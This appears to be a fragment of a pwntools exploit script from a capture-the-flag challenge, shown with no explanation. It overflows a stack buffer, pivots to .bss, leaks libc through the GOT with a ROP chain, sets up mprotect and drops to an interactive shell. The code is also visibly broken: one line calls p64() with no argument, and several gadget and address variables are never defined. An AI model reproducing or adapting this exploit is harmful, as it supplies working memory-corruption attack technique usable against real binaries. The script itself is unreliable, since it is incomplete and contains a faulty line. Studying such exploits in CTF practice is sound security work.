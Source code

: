 ```python
mprotect=0x118bc0
rdx_r12=0x119431

link.recvuntil(b'luck.')
payload=b'a'*0x50+p64(bss_base)+p64(read)
link.send(payload)

link.recvuntil(b'luck.')
payload=p64(rsi_r15)+p64(elf.got['read'])+p64(0)+p64(elf.plt['write'])+p64(rbp)+p64(bss_base+0x100)+p64(read)+b'a'*0x18
payload+=p64(bss_base-0x58)+p64(leave_ret)
link.send(payload)

read_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(read_addr))
libc_base=read_addr-0x10e1e0
print(hex(libc_base))
mp=libc_base+mprotect
rdx_r12=libc_base+rdx_r12

# gdb.attach(link,'set solib-search-path /home/pwner/FocusingCTF/glibc/2.31-0ubuntu9.17_amd64/')
# pause()

link.recvuntil(b'luck.')
payload=p64(rdi)+p64(4)+p64(rsi_r15)+p64()+p64(0)+p64(rdx_r12)+p64(0x1000)+p64(0)+p64(read_addr)+b'a'*8
payload=payload.ljust(0x50,b'a')
payload+=p64(bss_base+0x100-0x58)+p64(leave_ret)
link.send(payload)

link.interactive()
```

